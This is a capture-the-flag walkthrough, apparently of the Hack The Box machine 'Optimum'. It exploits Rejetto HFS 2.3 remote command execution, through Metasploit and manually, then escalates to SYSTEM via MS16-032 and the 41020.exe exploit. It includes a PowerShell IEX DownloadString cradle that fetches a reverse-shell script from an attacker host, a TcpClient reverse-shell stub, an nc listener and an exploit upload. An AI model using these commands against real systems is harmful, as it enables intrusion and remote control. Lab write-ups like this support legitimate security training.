

Target: 10.10.10.8

## Enumeration

nmap
```
$ sudo nmap -sC -sV 10.10.10.8                                   

Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-16 03:50 PDT
Nmap scan report for 10.10.10.8
Host is up (0.16s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```



### Findings:Looking for attack vectors

Search for exploits on httpfileserver.


## Foothold:

Metasploit
```
$ msfconsole
```

searching for httpfileserver exploits
```
msf6 > search httpfileserver

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution

use exploit/windows/http/rejetto_hfs_exec
set RHOSTS 10.10.10.8
set LPORT tun0
run
```

```
meterpreter > getuid

Server username: OPTIMUM\kostas
```

```
meterpreter > cd C:\\Users\\kostas\\Desktop

meterpreter > cat user.txt.txt

<redacted>
```

## Priv Escalations:

migrating to a more stable program
```
meterpreter > ps

Process List
============

 PID   PPID  Name                Arch  Session  User            Path
 ---   ----  ----                ----  -------  ----            ----
 0     0     [System Process]
 4     0     System
 32    2620  iqGVdLpXavH.exe     x86   1        OPTIMUM\kostas  C:\Users\kostas\AppData\Local\Temp\radBCF41.tmp\i
                                                                qGVdLpXavH.exe
 228   4     smss.exe
 288   480   spoolsv.exe
 332   324   csrss.exe
 384   324   wininit.exe
 392   376   csrss.exe
 436   376   winlogon.exe
 480   384   services.exe
 488   384   lsass.exe
 552   480   svchost.exe
 580   480   svchost.exe
 596   480   vmtoolsd.exe
 668   436   dwm.exe
 676   480   svchost.exe
 708   480   svchost.exe
 764   480   svchost.exe
 832   480   svchost.exe
 844   480   svchost.exe
 972   480   svchost.exe
 992   480   VGAuthService.exe
 1028  480   ManagementAgentHos
             t.exe
 1292  480   svchost.exe
 1448  480   dllhost.exe
 1524  480   msdtc.exe
 1608  552   WmiPrvSE.exe
 1940  1860  explorer.exe        x64   1        OPTIMUM\kostas  C:\Windows\explorer.exe
<snip>

meterpreter > migrate 1940

[*] Migrating from 32 to 1940...
[*] Migration completed successfully.
```

searching for 
```
meterpreter > bg

[*] Backgrounding session 1...
msf6 exploit(windows/http/rejetto_hfs_exec) > search exploit/windows/local

search ms16_032

Matching Modules
================

   #  Name                                                           Disclosure Date  Rank    Check  Description
   -  ----                                                           ---------------  ----    -----  -----------
   0  exploit/windows/local/ms16_032_secondary_logon_handle_privesc  2016-03-21       normal  Yes    MS16-032 Secondary Logon Handle Privilege Escalation

use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
set SESSION 1
set LPORT tun0
run
```

```
meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM
```

```
meterpreter > cd C:\\Users\\Admistrator\\Desktop

meterpreter > cat root.txt.txt

<redacted>
```

## No Metasploit

## Foothold:

searchsploit
```
$ searchsploit httpfileserver
--------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                   |  Path
--------------------------------------------------------------------------------- ---------------------------------
Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)                      | windows/webapps/49125.py
--------------------------------------------------------------------------------- ---------------------------------
```

copying the exploit
```
$ searchsploit -m windows/webapps/49125.py
```

[Payload Link](https://gist.github.com/staaldraad/204928a6004e89553a8d3db0ce527fd5)

preparing payload
```
$socket = new-object System.Net.Sockets.TcpClient('<ip>', 9001);
<snip>
```

hosting payload
```
$ python3 -m http.server 8001
```

running the exploit
```
python3 49125.py 10.10.10.8 80 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://<ip>:<port>/mini-reverse.ps1')"
```

opening a nc listener on port 9001
```
$ nc -lnvp 9001
```

waiting for callback
```
whoami

optimum\kostas
```


## Priv Escalations:

windows-exploit-suggester
```
https://github.com/AonCyberLabs/Windows-Exploit-Suggester/blob/master/windows-exploit-suggester.py
```

downloading db
```
$ python windows-exploit-suggester.py --update

[*] initiating winsploit version 3.3...
[+] writing to file 2021-05-16-mssb.xls
[*] done
```

preparing systeminfo.txt
```
systeminfo

Host Name:                 OPTIMUM
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00252-70000-00000-AA535
Original Install Date:     18/3/2017, 1:51:36 μμ
System Boot Time:          22/5/2021, 10:47:50 μμ
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest
Total Physical Memory:     4.095 MB
Available Physical Memory: 3.206 MB
Virtual Memory: Max Size:  5.503 MB
Virtual Memory: Available: 4.576 MB
Virtual Memory: In Use:    927 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              \\OPTIMUM
Hotfix(s):                 31 Hotfix(s) Installed.
                           [01]: KB2959936
                           [02]: KB2896496
                           [03]: KB2919355
                           [04]: KB2920189
                           [05]: KB2928120
                           [06]: KB2931358
                           [07]: KB2931366
                           [08]: KB2933826
                           [09]: KB2938772
                           [10]: KB2949621
                           [11]: KB2954879
                           [12]: KB2958262
                           [13]: KB2958263
                           [14]: KB2961072
                           [15]: KB2965500
                           [16]: KB2966407
                           [17]: KB2967917
                           [18]: KB2971203
                           [19]: KB2971850
                           [20]: KB2973351
                           [21]: KB2973448
                           [22]: KB2975061
                           [23]: KB2976627
                           [24]: KB2977629
                           [25]: KB2981580
                           [26]: KB2987107
                           [27]: KB2989647
                           [28]: KB2998527
                           [29]: KB3000850
                           [30]: KB3003057
                           [31]: KB3014442
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) 82574L Gigabit Network Connection
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.8
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

enumerating
```
$ python windows-exploit-suggester.py --database 2021-05-16-mssb.xls --systeminfo systeminfo.txt


```

downloading exploit
```
https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe
```

hosting exploit
```
$ python3 -m http.server 8001
```

uploading exploit
```
powershell -c "Invoke-WebRequest -Uri http://<ip>:<port>/41020.exe -OutFile C:\Users\kostas\Desktop\41020.exe"
```

executing exe
```
41020.exe


```

```
id 

```
